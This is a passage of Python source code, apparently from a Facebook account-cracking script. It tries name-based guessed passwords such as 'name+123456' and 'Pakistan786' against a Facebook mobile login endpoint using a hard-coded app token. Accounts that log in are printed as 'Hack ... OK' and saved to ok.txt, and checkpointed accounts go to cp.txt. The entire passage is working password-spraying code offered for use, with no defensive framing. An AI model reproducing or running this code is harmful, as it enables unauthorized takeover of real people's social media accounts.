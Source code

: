 		                                                cps.append(uid)
		                                            else:
		                                                if 'access_token' in d:
		                                                    print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass6+" --> OK\x1b[1;0m")
		                                                    ok=open("ok.txt","a")
		                                                    ok.write(uid+" | "+pass6+"\n")
		                                                    ok.close()
		                                                    oks.append(uid)
		                                                else:
		                                                    pass7=name+"g"
		                                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		                                                    d=json.loads(q)
		                                                    if 'www.facebook.com' in d['error_msg']:
		                                                        print("Error "+uid+" | "+pass7+" --> CP")
		                                                        cp=open("cp.txt","a")
		                                                        cp.write(uid+" | "+pass7+"\n")
		                                                        cp.close()
		                                                        cps.append(uid)
		                                                    else:
		                                                        if 'access_token' in d:
		                                                            print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass7+" --> OK\x1b[1;0m")
		                                                            ok=open("ok.txt","a")
		                                                            ok.write(uid+" | "+pass7+"\n")
		                                                            ok.close()
		                                                            oks.append(uid)
		                                                        else:
		                                                        	pass8=name+"123456"
		                                                        	q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass8 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		                                                        	d=json.loads(q)
		                                                        	if 'www.facebook.com' in d['error_msg']:
		                                                        		print("Error "+uid+" | "+pass8+" --> CP")
		                                                        		cp=open("cp.txt","a")
		                                                        		cp.write(uid+" | "+pass8+"\n")
		                                                        		cp.close()
		                                                        		cps.append(uid)
		                                                        	else:
		                                                        		if 'access_token' in d:
		                                                        			print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass8+" --> OK\x1b[1;0m")
		                                                        			ok=open("ok.txt","a")
		                                                        			ok.write(uid+" | "+pass8+"\n")
		                                                        			cp.close()
		                                                        			cps.append(uid)
		                                                        		else:
		                                                        			pass9="Pakistan786"
		                                                        			q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass9 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		                                                        			d=json.loads(q)
		                                                        			if 'www.facebook.com' in d['error_msg']:
		                                                        				print("Error "+uid+" | "+pass9+" --> CP")
		                                                        				cp=open("cp.txt","a")
		                                                        				cp.write(uid+" | "+pass9+"\n")
		                                                        				cp.close()
		                                                        				cps.append(uid)
		                                                        			else:
		                                                        				if 'access_token' in d:
		                                                        					print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass9+" --> OK\x1b[1;0m")